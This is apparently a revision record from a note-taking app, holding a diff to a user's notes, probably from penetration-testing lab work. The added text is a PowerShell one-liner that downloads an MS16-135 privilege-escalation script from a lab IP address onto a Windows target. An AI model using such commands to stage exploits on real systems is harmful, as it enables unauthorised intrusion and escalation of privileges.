 id: e6a496695c5b4932ac50362f2cfb6f64
parent_id: 029b2a4ef83c4b6c84b8dc95f2cb9ba7
item_type: 1
item_id: 7fcb789b143c4fdead546ced081886f7
item_updated_time: 1650905486026
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"nd.exe')\"],[1,\"\\\n> \\\n> powershell -nop -c \\\"(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.160/MS16-135.ps1','MS16-135.ps1')\\\"\"]],\"start1\":270,\"start2\":270,\"length1\":8,\"length2\":135}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-25T16:53:08.714Z
created_time: 2022-04-25T16:53:08.714Z
type_: 13